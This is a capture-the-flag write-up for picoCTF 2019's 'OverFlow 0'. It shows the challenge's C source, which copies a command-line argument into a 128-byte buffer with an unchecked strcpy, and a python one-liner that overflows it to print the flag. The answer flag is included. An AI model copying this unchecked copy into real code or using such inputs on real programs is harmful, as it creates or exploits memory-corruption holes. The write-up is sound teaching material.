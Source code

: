 # OverFlow 0 - Points: 100

## Problem

> This should be easy. Overflow the correct buffer in this [program](https://2019shell1.picoctf.com/static/1730bdc8ccd557c8ff20d1c28a5c3dbe/vuln) and get a flag. Its also found in /problems/overflow-0_4_e130f4df1710865981d50f778a8059f7 on the shell server. [Source](https://2019shell1.picoctf.com/static/1730bdc8ccd557c8ff20d1c28a5c3dbe/vuln.c).

## Hints

> Find a way to trigger the flag to print

> If you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

## Overview

There's a source code written in C and a program to run. Looking at the tittle, we pretty much know this challenge is about buffer overflow, one of a really common program vulnerabilities.

## Solutions

Let's look at the source code first

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```
Basically, the program tries to open a text file called flag.txt which I believe is on their shell server.

However we can try pwning the binary locally first creating a file flag.txt on your system and add some contents into it. 

Anyways, I'll just do it on the shell server 

```
$ ./vuln
Please enter an argument next time
```

Now we try it with an argument
```
$ ./vuln testing
You entered: testing
```
As you can see in the source code, ```vuln()``` doesn't have any boundary checking, so even though there is 128 bytes space available, its ```strcpy()``` will keep inserting more and more bytes into ```buf``` and it's a very basic buffer overflow.

I'll try to leverage and exploit this vulnerability. 

After a few tries I found that it needed 6 more bytes to leak out the flag.
```
$ ./vuln $(python -c "print('A'*134)")
picoCTF{3asY_P3a5y2f814ddc}
```
